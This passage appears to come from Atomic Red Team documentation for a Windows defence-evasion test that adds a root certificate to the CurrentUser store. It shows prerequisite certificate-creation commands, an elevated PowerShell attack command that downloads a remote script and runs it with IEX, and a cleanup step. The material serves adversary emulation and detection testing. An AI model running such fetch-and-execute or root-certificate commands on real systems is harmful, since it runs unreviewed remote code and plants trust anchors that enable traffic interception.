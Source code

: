 

#### Dependencies:  Run with `powershell`!
##### Description: Certificate must exist at specified location (#{pfx_path})
##### Check Prereq Commands:
```powershell
if (Test-Path #{pfx_path}) { exit 0 } else { exit 1 }
```
##### Get Prereq Commands:
```powershell
$cert = New-SelfSignedCertificate -DnsName atomicredteam.com -CertStoreLocation cert:\LocalMachine\My
Export-Certificate -Type CERT -Cert  Cert:\LocalMachine\My\$($cert.Thumbprint) -FilePath #{pfx_path}
Get-ChildItem Cert:\LocalMachine\My\$($cert.Thumbprint) | Remove-Item
```




<br/>
<br/>

## Atomic Test #7 - Add Root Certificate to CurrentUser Certificate Store
The following Atomic test simulates adding a generic non-malicious certificate to the CurrentUser certificate store. This behavior generates a registry modification that adds the cloned root CA certificate in the keys outlined in the blog.
Keys will look like - \SystemCertificates\CA\Certificates or \SystemCertificates\Root\Certificates
Reference: https://posts.specterops.io/code-signing-certificate-cloning-attacks-and-defenses-6f98657fc6ec

**Supported Platforms:** Windows


**auto_generated_guid:** ca20a3f1-42b5-4e21-ad3f-1049199ec2e0






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
IEX (IWR 'https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1553.004/src/RemoteCertTrust.ps1' -UseBasicParsing)
```

#### Cleanup Commands:
```powershell
Get-ChildItem -Path Cert:\ -Recurse | Where-Object { $_.Thumbprint -eq '1F3D38F280635F275BE92B87CF83E40E40458400' } | remove-item
```





<br/>
